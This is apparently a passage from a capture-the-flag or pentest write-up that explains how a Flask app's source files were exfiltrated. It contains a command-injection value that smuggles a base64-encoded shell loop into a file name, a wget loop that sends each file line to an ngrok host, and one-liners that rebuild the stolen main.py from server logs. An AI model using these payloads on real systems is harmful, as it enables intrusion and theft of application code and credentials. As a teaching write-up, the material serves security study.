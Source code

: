 
```
sed -n 's/.*GET \([^ ]*\) - .*/\1/p' filesystem.log | tr -d '\n' | tr -d '/' | sed 's/ /\\n/g' | base64 -d
```
![image](https://hackmd.io/_uploads/r1ACNp1bkx.png)


## Exfiltrating the Database
Now we can use wget to again to exifiltrate application files which might conatin sensitive informations like database configurations.

```
cat /app/main.py | base64  | while read line; do wget "http://0b0e-41-74-120-172.ngrok-free.app/${line}"; done
```

```
Y2F0IC9hcHAvaGVsbG8ucHkgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vMGIwZS00MS03NC0xMjAtMTcyLm5ncm9rLWZyZWUuYXBwLyR7bGluZX0iOyBkb25l
```

```
backup.bak; echo Y2F0IC9hcHAvaGVsbG8ucHkgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vMGIwZS00MS03NC0xMjAtMTcyLm5ncm9rLWZyZWUuYXBwLyR7bGluZX0iOyBkb25l | base64 -d | sh
```

![image](https://hackmd.io/_uploads/rySjZC1-ke.png)


```
sed -n 's/.*GET \([^ ]*\) - .*/\1/p' main.log | tr -d '\n' | tr -d '/' | sed 's/ /\\n/g' | base64 -d > main.py
```
Exifiltrated `main.py`

```
from flask import Flask
from flask import request,render_template,redirect,session,url_for,flash,make_response,abort
import sqlite3
from functools import wraps
import hashlib
import os
import subprocess
from flask_mysqldb import MySQL
import re

app = Flask(__name__)

app.config['MYSQL_HOST'] = '[REDACTED]'
app.config['MYSQL_USER'] = '[REDACTED]'
app.config['MYSQL_PASSWORD'] = '[REDACTED]'
app.config['MYSQL_DB'] = '[REDACTED]'

<!---------- SNIP --------------->
    return redirect(url_for('admin'))
```
